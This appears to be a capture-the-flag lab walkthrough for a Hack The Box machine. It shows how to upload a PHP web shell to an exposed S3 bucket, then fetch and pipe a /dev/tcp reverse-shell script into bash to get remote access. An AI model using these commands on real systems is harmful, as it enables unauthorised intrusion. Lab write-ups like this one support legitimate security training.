 
## EXAMPLE OF A REVERSE SHELL PROCESS

1. Investigate accessible subdomains using gobuster.
2. Check if there are any files in the subdomain's bucket (e.g., index.php).
3. Create a script (e.g., in PHP if an index.php is found) to execute commands on the page's endpoint.
````bash
<?php system($_GET["cmd"]); ?>
````
4. Add the script that allows us to send commands through the endpoint:
````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````
5. Use `ifconfig` to determine our IP address and create the reverse shell command using https://www.revshells.com:
````bash
echo 'sh -i >& /dev/tcp/10.10.15.142/443 0>&1' > shell.sh
```` 
6. Open a server on our machine to connect to the reverse shell:
````bash
python3 -m http.server 8080
```` 
7. Use `netcat` to gain access to the reverse shell:
````bash
sudo nc -lvnp 443
````
8. Curl the file containing the reverse shell script on our machine using the exposed IP (in this case, tun0) and port. Create a pipe so that when the curl is performed, it enters bash. (Note: `%20` represents a space character.)
````bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.142:8080/shell.sh|bash
````
9. Once executed, access to the target machine should be achieved at the location where `netcat` was running.

